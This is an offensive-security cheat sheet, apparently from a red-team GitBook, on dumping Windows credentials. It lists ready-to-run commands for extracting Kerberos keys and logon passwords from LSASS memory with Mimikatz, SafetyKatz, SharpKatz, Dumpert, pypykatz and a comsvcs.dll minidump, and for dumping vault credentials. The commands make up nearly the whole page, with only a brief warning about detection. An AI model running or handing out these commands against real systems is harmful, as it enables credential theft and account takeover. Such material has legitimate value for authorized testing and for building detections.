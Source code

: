 # Credentials Dump

## LSASS

{% hint style="warning" %}
high chances of detection
{% endhint %}

### Kerberos encryption keys

The Kerberos SSP used by LSASS in order to provide different authentication methods.\
Therefore, it possible to dump Kerberos encryption keys using `sekurlsa::ekeys`.

```powershell
# Dump credentials on a local machine using Mimikatz.
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 

# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
SafetyKatz.exe "sekurlsa::ekeys" 

# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa

# Using comsvcs.dll
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full 
```

### Logon Passwords&#x20;

This usually shows recently logged on user and computer credentials.

<pre class="language-powershell"><code class="lang-powershell"><strong>Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' 
</strong></code></pre>

## Vault

Enumerates vault credentials of scheduled tasks.

```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```
